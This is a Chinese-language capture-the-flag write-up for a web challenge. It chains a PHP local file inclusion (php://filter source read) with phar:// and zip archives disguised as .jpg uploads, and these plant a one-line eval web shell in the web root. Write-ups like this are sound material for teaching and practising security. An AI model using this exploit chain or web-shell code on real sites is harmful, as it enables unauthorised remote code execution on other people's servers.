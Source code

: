 ## web200-6 WriteUp 

---------------  

include.php 存在文件包含漏洞 

可以使用 include.php?file=php://filter/read=convert.base64-encode/resource=upload  来读取源码.

但是 include.php 限制了后缀只能是 .php,这里还不能截断 
再看upload.php,限制了只能上传图片

这里唯一可用的就是  phar://这个协议了  
这个协议到底怎么用参看这里:
[https://segmentfault.com/a/1190000002166235](https://segmentfault.com/a/1190000002166235)
[http://www.mamicode.com/info-detail-888559.html](http://www.mamicode.com/info-detail-888559.html)

###  方法一
来新建一个目录,名字为blog,下面放一个index.php,里面是一个写shell的php代码
```php
<?php  file_put_contents('shell.php','<?php eval($_POST[1])?>'); ?>
``` 

在blog目录外创建一个打包的文件,build.php,代码如下:
```php
<?php 

if(class_exists('Phar')){

     $phar = new Phar('blog.phar',0,'blog.phar');

     $phar ->buildFromDirectory(__DIR__.'/blog');

     $phar->setStub($phar->createDefaultStub('index.php'));
     $phar-> compressFiles(Phar::GZ);
}
```
运行build.php,就会创建一个blog.phar, 然后把后缀名修改为  blog.jpg,然后上传:

然后访问:
```
/include.php?file=phar://upload/blog.jpg/index
```
就会在跟目录下生成一个shell.php,注意.. 不是upload目录下 

### 方法二 

直接把index.php  zip压缩为 blog.zip ,然后改名字为 blog.jpg,
上传之后,用同样的方法,也可以getshell 
